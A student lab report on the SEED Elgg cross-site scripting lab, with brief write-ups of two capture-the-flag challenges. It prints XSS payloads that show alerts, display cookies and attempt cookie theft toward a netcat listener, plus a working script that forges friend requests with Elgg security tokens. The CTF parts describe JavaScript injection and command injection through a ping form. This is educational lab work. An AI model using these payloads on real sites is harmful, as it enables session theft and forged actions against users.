










**Trabalho Realizado na Semana #10**

**Lab Tasks**

**3.2 Task 1: Posting a Malicious Message to Display an Alert Window**

* In the first task we needed to make the script 
```html
<script>alert(’XSS’);</script>
```
run everytime that someone opens our profile.
* We entered the site as alice and in the about me section on the edit profile tab if we select the option to edit html we can simple enter the script like in the image and an alert sying 'XSS' will pop-up everytime someno enters that profile.




**3.3 Task 2: Posting a Malicious Message to Display Cookies**

* Now we needed to inject some js code that would display the cookies to the user entering the profile we can achieve this by using the same methode that we used in the last task but this time the script will be:
```html 
<script>'alert(document.cookie);'.</script>
```




**3.4 Task 3: Stealing Cookies from the Victim’s Machine**

* In this task we needed to make the script send the cookies to our computer we can achieve this by making the browser send a get request to us with the cookies information in the request, this is made by making the browser request a resource from our machine.
```html
<script>document.write(’’);
</script>
```
Then we can use netcat to make our machine listen to any requests it gets.




**3.5 Task 4: Becoming the Victim’s Friend**

* In this task we needed to make a script that makes the person o visits our profile add us as friend we can achieve this with this script:
```html
<script type="text/javascript">
window.onload = function () {
	var Ajax=null;
	var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
	var token="&__elgg_token="+elgg.security.token.__elgg_token;
	//Construct the HTTP request to add Samy as a friend.
	var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token; //FILL IN
	//Create and send Ajax request to add friend
	Ajax=new XMLHttpRequest();
	Ajax.open("GET", sendurl, true);
	Ajax.send();
}
</script>
```

* We discovered the url to add to the script by using the HTTP Header Live tool, we sended a legitimate friend request to samy to discover what the request would look like:



* Then we just inject the script into our profile using the same technique as before:



* And now if we visit samy's profile as onether user we add him as friend:




* Question 1: The porpuse of this lines is to send a valid elgg token in our forged request so that the server thinks the request is from a legitimate user.

* Question 2: We couldn't launch a successful attack since the editor mode doesn't allow us to introduce special characters such as <> so we could not use html tags.


# CTF

**Semana 10 - Desafio 1**

Firstly, we figured out that, no matter what we inputted, the flag was not given to us, so we took some time to check the flag giving web page.


We discovered quickly that the "Give the flag" rectangle was a clickable button.
So, by embeding a javascript shellcode that clicked the button, we were able to retrieve the flag


**Semana 10 - Desafio 2**


Challenge two was a bit simpler, since, by browsing the website given to us, we figured out that when we pressed the Here link at the bottom of the page we were redirected to a form in which we could input a certain IP address to ping.

We realised that this form was nothing more than a linux client console so, by inputting a random IP address and the command to print the contents of the flag.txt file in the directory flags we were able to retrieve the desired flag


